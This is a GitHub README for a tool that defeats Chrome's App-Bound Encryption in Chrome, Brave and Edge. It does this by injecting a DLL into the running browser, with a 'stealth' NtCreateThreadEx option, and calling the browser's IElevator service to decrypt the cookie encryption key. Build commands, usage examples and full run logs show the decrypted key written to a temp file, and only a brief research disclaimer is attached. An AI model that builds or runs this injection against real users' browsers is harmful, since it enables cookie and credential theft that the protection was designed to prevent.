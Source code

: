 # Chrome App-Bound Encryption Decryption

> **Purpose**  
> Decrypt the **App‑Bound Encrypted (ABE)** keys stored in the *Local State* file of Chromium‑based browsers (**Chrome, Brave, Edge**) **without requiring administrative privileges**.

Starting with Chrome 127, Google introduced ABE: cookies (and, in future, passwords & payment data) are encrypted with a key that can only be decrypted by the browser’s own **IElevator** COM service *and* when the calling binary is inside the browser’s installation directory.

This project bypasses that path‑validation requirement by injecting a small DLL into the running browser process and calling IElevator from there, supporting multiple injection methods, verbose debugging, auto‑start, and optional process cleanup.

## 📦 Supported & Tested Versions

| Browser | Tested Version (x64 & ARM64) |
|---------|-----------------------------|
| **Google Chrome** | 135.0.7049.96 |
| **Brave** | 1.77.100 |
| **Microsoft Edge** | 135.0.3179.85 |

> [!NOTE]  
> The injector requires the target browser to be **running** unless you use `--start-browser`.


## 🔧 Build Instructions

1. **Clone** the repository and open a *Developer Command Prompt for VS* (or any MSVC‑enabled shell).  
2. **Compile the DLL** (responsible for the decryption logic):

    ```bash
    cl /EHsc /LD /O2 /MT chrome_decrypt.cpp ole32.lib oleaut32.lib shell32.lib version.lib comsuppw.lib /link /OUT:chrome_decrypt.dll
    ```
3. **Compile the injector** (responsible for DLL injection & console UX):

    ```bash
    cl /EHsc /O2 /std:c++17 /MT chrome_inject.cpp version.lib ntdll.lib shell32.lib /link /OUT:chrome_inject.exe
    ```

Both artifacts (`chrome_inject.exe`, `chrome_decrypt.dll`) must reside in the same folder.

## 🚀 Usage

```bash
PS> .\chrome_inject.exe [options] <chrome|brave|edge>
```

### Options

Options

- `--method load|nt`
  Injection method:
  - load = CreateRemoteThread + LoadLibrary (default)
  - nt   = NtCreateThreadEx stealth injection

- `--start-browser`
  Auto-launch the browser if it’s not already running.

- `--verbose`
  Enable extensive debugging output.

### Examples

```bash
# Standard load-library injection:
PS> .\chrome_inject.exe chrome

# Use stealth NtCreateThreadEx method:
PS> .\chrome_inject.exe --method nt chrome

# Auto-start Brave and show debug logs:
PS> .\chrome_inject.exe --method load --start-browser --verbose brave
```

#### Normal Run

```bash
C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption>chrome_inject.exe chrome --method nt --start-browser
------------------------------------------------
|  Chrome App-Bound Encryption Injector        |
|  Multi-Method Process Injector               |
|  v0.4 by @xaitax                             |
------------------------------------------------

[*] Chrome not running, launching...
[+] Chrome launched (PID=22020)
[+] Chrome Version: 135.0.7049.96
[*] Located Chrome with PID 22020
[+] DLL injected via NtCreateThreadEx stealth
[*] Starting Chrome App-Bound Encryption Decryption process.

[+] COM library initialized.
[+] IElevator instance created successfully.
[+] Proxy blanket set successfully.
[+] Retrieving AppData path.
[+] Local State path: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Base64 key extracted.
[+] Finished decoding.
[+] Key header is valid.
[+] Encrypted key retrieved: 01000000d08c9ddf0115d1118c7a00c04fc297eb...
[+] BSTR allocated for encrypted key.
[+] Decryption successful.
[+] Decrypted Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
[*] Chrome terminated
```


#### Verbose

```bash
C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption>chrome_inject.exe chrome --method nt --start-browser --verbose
------------------------------------------------
|  Chrome App-Bound Encryption Injector        |
|  Multi-Method Process Injector               |
|  v0.4 by @xaitax                             |
------------------------------------------------

[#] verbose=true
[#] CleanupPreviousRun: removing temp files
[#] Deleting C:\Users\ah\AppData\Local\Temp\chrome_decrypt.log
[#] Deleting C:\Users\ah\AppData\Local\Temp\chrome_appbound_key.txt
[#] Target display name=Chrome
[#] procName=chrome.exe, exePath=C:\Program Files\Google\Chrome\Application\chrome.exe
[#] GetProcessIdByName: snapshotting processes
[*] Chrome not running, launching...
[#] StartBrowserAndWait: exe=C:\Program Files\Google\Chrome\Application\chrome.exe
[#] Browser started PID=13120
[+] Chrome launched (PID=13120)
[#] Retrieving version info
[#] GetFileVersionInfoSizeW returned size=2212
[+] Chrome Version: 135.0.7049.96
[#] Version string=135.0.7049.96
[*] Located Chrome with PID 13120
[#] Opening process PID=13120
[#] HandleGuard: acquired handle 208
[#] GetDllPath: C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\chrome_decrypt.dll
[#] InjectWithNtCreateThreadEx: begin
[#] ntdll.dll base=140729278005248
[#] NtCreateThreadEx addr=140729278012608
[#] VirtualAllocEx size=87
[#] WriteProcessMemory complete
[#] Calling NtCreateThreadEx
[#] NtCreateThreadEx returned 0, thr=212
[#] InjectWithNtCreateThreadEx: done
[+] DLL injected via NtCreateThreadEx stealth
[*] Starting Chrome App-Bound Encryption Decryption process.
[#] Opening log file C:\Users\ah\AppData\Local\Temp\chrome_decrypt.log

[+] COM library initialized.
[+] IElevator instance created successfully.
[+] Proxy blanket set successfully.
[+] Retrieving AppData path.
[+] Local State path: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Base64 key extracted.
[+] Finished decoding.
[+] Key header is valid.
[+] Encrypted key retrieved: 01000000d08c9ddf0115d1118c7a00c04fc297eb...
[+] BSTR allocated for encrypted key.
[+] Decryption successful.
[#] Opening key file C:\Users\ah\AppData\Local\Temp\chrome_appbound_key.txt
[+] Decrypted Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
[#] Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
[#] Terminating browser PID=13120
[#] HandleGuard: acquired handle 236
[*] Chrome terminated
[#] HandleGuard: closing handle 236
[#] Exiting, success
[#] HandleGuard: closing handle 208
```


## 🆕 v0.4 Changelog

- **New**: selectable injection methods (`--method load|nt`)  
- **New**: auto‑start the browser if not running (`--start-browser`)  
- **New**: verbose debug output (`--verbose`)  
- **New**: automatically terminate the browser after decryption 
- **Improved**: Injector code refactoring 


Further Links:

- [Google Security Blog](https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html)
- [Chrome app-bound encryption Service](https://drive.google.com/file/d/1xMXmA0UJifXoTHjHWtVir2rb94OsxXAI/view)
- [snovvcrash](https://x.com/snovvcrash)
- [SilentDev33](https://github.com/SilentDev33/ChromeAppBound-key-injection)

## Disclaimer

> [!WARNING]  
> This tool is intended for cybersecurity research and educational purposes. Ensure compliance with all relevant legal and ethical guidelines when using this tool.